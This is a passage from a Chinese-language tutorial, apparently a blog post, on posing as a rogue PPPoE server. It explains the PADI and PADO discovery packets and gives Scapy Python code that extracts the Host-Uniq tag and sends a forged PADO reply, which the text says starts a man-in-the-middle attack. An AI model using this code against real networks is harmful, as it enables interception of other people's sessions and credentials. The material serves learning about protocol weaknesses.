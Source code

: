 它的 CODE 字段值为 0×09，SESSION-ID（会话ID）字段值为 0×0000。

PADI 分组必须至少包含一个 Host-Uniq，Host-Uniq为主机唯一标识，类似于PPP数据报文中的标识域，主要是用来匹配发送和接收端的。因为对于广播式的网络中可能会同时存在很多个PPPoE的数据报文。

![](https://raw.githubusercontent.com/akkuman/pic/master/img/PADI_TIM_20190512202318.png)

因为此时发的是广播包，那么我们只需要本机搭建一个 Server 对 PADI 进行响应，就可以开始我们的中间人作业了。

具体流程就是监听网卡，然后过滤 CODE 字段值为 0×09 的包然后进行响应即可。

因为其中的 Host-Uniq 字段在后续的请求中都需要，我们写一个函数把这个字段值揪出来。

```python
#寻找客户端发送的Host-Uniq
def padi_find_hostuniq(self, payload):
    _key = b'\x01\x03'
    payload = bytes(payload)
    if _key in payload:
        _nIdx = payload.index(_key)
        _nLen = struct.unpack("!H", payload[_nIdx + 2:_nIdx + 4])[0]
        _nData = payload[_nIdx + 2:_nIdx + 4 + _nLen]
        return _key + _nData
    return
```

需要传入的是一个 Packet.payload，payload 是除去链路层的其他数据，在这里面具体就是 PPPoED 下面的数据

### PADO

当一个接入集中器（Server）接收到一个 PADI 包以后，就需要进行响应，发出 PADO 包了。

PADO 包的 CODE 字段值为 0×07，SESSION-ID 字段值仍为 0×0000。

PADO分组必须包含一个接入集中器名称类型的标签（此处的标签类型字段值为 akkuman），其实就是一个名字，你想填什么都可以。

并且需要包含前面 PADI 包中的 Host-Uniq 字段，这个字段在 PPPoE 的发现阶段都是必要的。

![](https://raw.githubusercontent.com/akkuman/pic/master/img/PADO_TIM_20190512203433.png)

在载荷中可能有多个 tag，他们的格式如下：

```
    0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
   +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
   |          TAG_TYPE             |        TAG_LENGTH             |
   +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
   |          TAG_VALUE ...                                        ~
   +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

可以看出，标记的封装格式采用的是大家所熟知的TLV结构，也即是（类型+长度+数据）。标记的类型域为2个字节，各个标记的类型所代表的含义具体可以查看 [RFC 2516](https://datatracker.ietf.org/doc/rfc2516/) 或 [PPPoE帧格式](https://datatracker.ietf.org/doc/rfc2516/)

这里的 0x0103 即代表 Host-Uniq，是主机唯一标识，作用在上文已经提及。

那我们可以根据这个要求写一个发送 PADO 包的函数。

```python
#发送PADO回执包
def send_pado_packet(self, pkt):
    # 寻找客户端的Host_Uniq
    _host_Uniq = self.padi_find_hostuniq(pkt.payload)
    _payload = b'\x01\x02\x00\x07akkuman\x01\x01\x00\x00'
    if _host_Uniq:
        _payload += _host_Uniq
    # PADO 回执包的 sessoinid 为 0x0000
    pkt.sessionid =  getattr(pkt, 'sessionid', 0x0000)
    sendpkt = Ether(src=MAC_ADDRESS, dst=pkt.src, type=0x8863) / PPPoED(version=1, type=1, code=0x07, sessionid=pkt.sessionid, len=len(_payload)) / _payload
    scapy.sendp(sendpkt)
```